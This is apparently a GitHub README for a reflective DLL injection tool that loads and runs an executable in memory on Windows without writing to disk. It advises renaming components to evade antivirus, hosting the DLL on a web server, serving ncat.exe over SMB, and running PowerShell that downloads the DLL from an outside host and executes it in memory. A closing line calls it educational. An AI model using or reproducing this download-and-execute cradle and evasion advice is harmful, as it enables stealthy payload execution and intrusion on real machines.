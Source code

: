 ## Reflective DLL Injection Template

This program demontrates a three-part Windows exploit to load and execute an executable from memory, without ever touching disk.

For this to execute properly:
1. Host a web server containing the compiled DLL (names of everything should be changed to avoid AV detection)
2. Set up an SMB server containing the executable you want to run (here, `ncat.exe`)
3. Execute the following commands in a Powershell session:

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.16.1/ReflectiveDllInjection.dll')
$assembly = [System.Reflection.Assembly]::Load($data)
[ReflectiveDllInjection.ReflectiveDllInjection]::Main()
```

## Usage

This project is create for educational and demonstration purposes only. I'm not liable for how you use it.